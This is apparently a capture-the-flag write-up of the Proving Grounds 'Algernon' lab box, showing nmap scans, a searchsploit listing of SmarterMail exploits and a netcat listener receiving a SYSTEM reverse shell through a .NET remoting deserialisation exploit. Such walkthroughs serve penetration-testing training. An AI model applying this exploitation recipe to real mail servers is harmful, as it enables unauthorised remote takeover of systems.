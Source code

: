```yaml
---
layout: post
title: Proving Grounds - Algernon
date: 2020-09-18 12:16:22 +0100
description: Algernon is an easy Windows box featuring an outdated installation of a mail server. It features an array of open ports though one .NET remoting endpoint is vulnerable to a deserialisation attack.
img: os.jpeg
fig-caption: Algernon
categories: ProvingGrounds
tags: [Easy, Windows, Practice, CVE]
---
```

## Overview
Algernon is an easy Windows box featuring an outdated installation of a mail server. It features an array of open ports though one .NET remoting endpoint is vulnerable to a deserialisation attack.

## Enumeration
The initial scan reveals a fair number of open ports
```
┌──[192.168.49.200]-(calxus㉿calxus)-[~/PG/Algernon]
└─$ sudo nmap -p- -T4 192.168.200.65
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-01 17:54 BST
Nmap scan report for 192.168.200.65
Host is up (0.092s latency).
Not shown: 65528 filtered ports
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
9998/tcp  open  distinct32
17001/tcp open  unknown
```
After some initial enumeration a SmarterMail mail server is found on port 9998. Searching exploitdb reveals a number of vulnerabilities. With the "Remote Code Execution" vulnerability being of particular interest.
```
┌──[192.168.49.200]-(calxus㉿calxus)-[~/PG/Algernon]
└─$ searchsploit smartermail
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
SmarterMail 16 - Arbitrary File Upload                                                                                     | multiple/webapps/48580.py
SmarterMail 7.1.3876 - Directory Traversal                                                                                 | windows/remote/15048.txt
SmarterMail 7.3/7.4 - Multiple Vulnerabilities                                                                             | asp/webapps/16955.txt
SmarterMail 8.0 - Multiple Cross-Site Scripting Vulnerabilities                                                            | asp/webapps/16975.txt
SmarterMail < 7.2.3925 - LDAP Injection                                                                                    | asp/webapps/15189.txt
SmarterMail < 7.2.3925 - Persistent Cross-Site Scripting                                                                   | asp/webapps/15185.txt
SmarterMail Build 6985 - Remote Code Execution                                                                             | windows/remote/49216.py
SmarterMail Enterprise and Standard 11.x - Persistent Cross-Site Scripting                                                 | asp/webapps/31017.php
smartermail free 9.2 - Persistent Cross-Site Scripting                                                                     | windows/webapps/20362.py
SmarterTools SmarterMail 4.3 - 'Subject' HTML Injection                                                                    | php/webapps/31240.txt
SmarterTools SmarterMail 5.0 - HTTP Request Handling Denial of Service                                                     | windows/dos/31607.py
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```
In the vulnerability we find that it relies on a .NET remote endpoint being available, thankfully this endpoint does seem to be exposed.
```
┌──[192.168.49.200]-(calxus㉿calxus)-[~/PG/Algernon]
└─$ sudo nmap -p17001 -sV 192.168.200.65                        
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-01 19:20 BST
Nmap scan report for 192.168.200.65
Host is up (0.093s latency).

PORT      STATE SERVICE  VERSION
17001/tcp open  remoting MS .NET Remoting services
```
## Foothold
Having identified the vulnerability during enumeration, getting a shell is as simple as updating the LHOST nad LPORT in the script. Though we must make sure to use a port that is not blocked by the firewall, which in this case port 80 proved to work.
```
┌──[192.168.49.200]-(calxus㉿calxus)-[~/PG/Algernon]
└─$ nc -nlvp 80                                                                                                                                         
listening on [any] 80 ...
connect to [192.168.49.200] from (UNKNOWN) [192.168.200.65] 49892

PS C:\Windows\system32> whoami
nt authority\system
PS C:\Windows\system32>
```
## Privilege Escalation

Privilege escalation is not required as we got a system shell directly from the foothold